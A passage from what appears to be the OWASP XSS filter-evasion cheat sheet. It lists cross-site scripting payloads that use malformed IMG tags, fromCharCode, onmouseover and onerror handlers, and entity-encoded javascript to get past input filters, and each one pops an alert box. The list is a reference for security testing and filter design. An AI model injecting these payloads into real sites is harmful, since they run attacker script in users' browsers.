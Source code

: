 ```html
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>
```

## fromCharCode

If no quotes of any kind are allowed you can `eval()` a `fromCharCode` in JavaScript to create any XSS vector you need:

```html
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
```

## Default SRC Tag to Get Past Filters that Check SRC Domain

This will bypass most SRC domain filters. Inserting javascript in an event method will also apply to any HTML tag type injection that uses elements like Form, Iframe, Input, Embed etc. It will also allow any relevant event for the tag type to be substituted like `onblur`, `onclick` giving you an extensive amount of variations for many injections listed here. Submitted by David Cross .

Edited by Abdullah Hussam(@Abdulahhusam).

```html
<IMG SRC=# onmouseover="alert('xxs')">
```

## Default SRC Tag by Leaving it Empty

```html
<IMG SRC= onmouseover="alert('xxs')">
```

## Default SRC Tag by Leaving it out Entirely

```html
<IMG onmouseover="alert('xxs')">
```

## On Error Alert

```html
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
```

## IMG onerror and JavaScript Alert Encode

```html
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
```

## Decimal HTML Character References
